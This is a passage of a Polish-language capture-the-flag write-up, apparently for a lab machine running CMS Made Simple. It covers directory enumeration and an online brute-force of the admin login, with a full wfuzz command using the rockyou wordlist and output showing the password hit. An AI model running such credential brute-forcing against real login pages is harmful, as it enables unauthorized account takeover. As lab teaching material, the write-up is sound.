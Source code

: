 Czyli standard. Wchodząc przez przeglądarkę jest jakiś CMS - [CMS - Made simple](http://www.cmsmadesimple.org/). Trochę połaziłem po stronie, ale nic ciekawego nie było, co by się potem przydało. **Feroxbuster** i **Dirsearch** wyrzuciły dużo linków, ale znalazły mało przydatnych rzeczy (no, może poza linkiem do logowania i wersją CMS-a). A to też jest ważna wskazówka (że prawie nic się nie znaleziono). Później poszukałem na necie i zobaczyłem, że główny użytkownik to _admin_(jak zwykle :smiley: ). Logowanie typu _admin/admin_ itp. oczywiście nie działało, więc trzeba było inaczej znaleźć hasełko.
{: .text-justify}
![02](/assets/images/hacking/2023/05/02.png)
{: .text-justify}
# 03. Szukanie hasełka dla admina
## 03a. (bruteforce)
Do łamania haseł online dobry jest **Ffuf** i **Wfuzz**. Niestety w **Ffuf** trzeba podawać jakieś dodatkowe parametry nagłówka, żeby dobrze znajdował. **Wfuzz** tego problemu już nie ma. Dodatkowa komplikacja w maszynie jest z umieszczeniem hasła na dalekiej pozycji.(używałem _rockyou.txt_), więc trochę czasu minie zanim program je znajdzie. 
{: .text-justify}
```bash
wfuzz -w /usr/share/wordlists/rockyou.txt -d 'username=admin&password=FUZZ&loginsubmit=Submit' -u http://172.16.1.227/admin/login.php --hh 4569
```
```bash
# /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
# ********************************************************
# * Wfuzz 3.1.0 - The Web Fuzzer                         *
# ********************************************************

# Target: http://172.16.1.227/admin/login.php
# Total requests: 14344392

# =====================================================================
# ID           Response   Lines    Word       Chars       #Payload                                                                              
# =====================================================================

# 000019993:   302        0 L      0 W        0 Ch        
# "hasełko"
```